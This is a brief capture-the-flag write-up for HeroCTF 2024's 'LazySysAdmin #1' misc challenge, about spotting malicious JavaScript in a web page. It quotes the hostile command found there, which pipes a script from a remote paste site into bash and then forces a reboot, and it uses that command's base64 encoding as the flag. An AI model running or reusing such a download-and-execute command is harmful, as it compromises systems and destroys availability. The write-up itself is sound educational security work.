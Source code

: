 ```yaml
---
title: CTFs | HeroCTF_2024 | Misc | LazySysAdmin1
author: BatBato
date: 2024-10-26
categories:
  - CTFs
  - HeroCTF_2024
  - Misc
tags:
  - Misc
permalink: /CTFs/HeroCTF_2024/Misc/LazySysAdmin1
---
```

# LazySysAdmin #1

![image](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/refs/heads/main/_posts/CTFs/HeroCTF_2024/photos/HeroCTF_2024_misc_lazy_enonce.png)

In this challenge we just have access to a web page and need to find the malicious code. When we access a post, we get a page with a bunch of text and if we look in the source code we can see a malicious `JavaScript` code :

![image](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/refs/heads/main/_posts/CTFs/HeroCTF_2024/photos/HeroCTF_2024_misc_lazy_burp.png)

So we just have to `base64` encode `curl -s https://ghostbin.site/6y65l/raw | bash && sleep 2 && reboot -f`. This gives us `Y3VybCAtcyBodHRwczovL2dob3N0YmluLnNpdGUvNnk2NWwvcmF3IHwgYmFzaCAmJiBzbGVlcCAyICYmIHJlYm9vdCAtZgo=`. 

So the flag is : `HERO{Y3VybCAtcyBodHRwczovL2dob3N0YmluLnNpdGUvNnk2NWwvcmF3IHwgYmFzaCAmJiBzbGVlcCAyICYmIHJlYm9vdCAtZgo=}`